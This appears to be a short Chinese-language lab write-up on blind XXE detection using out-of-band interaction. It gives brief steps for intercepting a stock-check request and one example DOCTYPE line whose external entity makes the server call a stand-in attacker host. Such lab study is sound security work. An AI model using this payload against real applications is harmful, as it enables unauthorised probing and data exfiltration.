



# 题意

实验只要能产生带外数据即可。

# 解题思路
首先点击Check stock并抓包，然后在包中加入payload：


发送即可，可以在collaborator中看到相关信息


# 知识点
## XXE盲注
许多XXE实例都是盲注。意味着应用程序不会在响应中返回任何被定义的外部实体的值，所以直接获取服务端文件是不可能的。但是盲注XXE仍然可以被检测并利用。比如用带外技术来发现漏洞并利用其提取数据。也可以出发XML解析错误导致敏感信息包含在错误信息中泄露。

## 利用带外数据实现盲注
例如，可以定义如下外部实体:
```
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://f2g9j7hhkax.web-attacker.com"> ]>
```
这个XXE攻击导致服务器向该URL执行了一个后端http请求。攻击者可以监视DNS查询和http请求来验证攻击是否成功。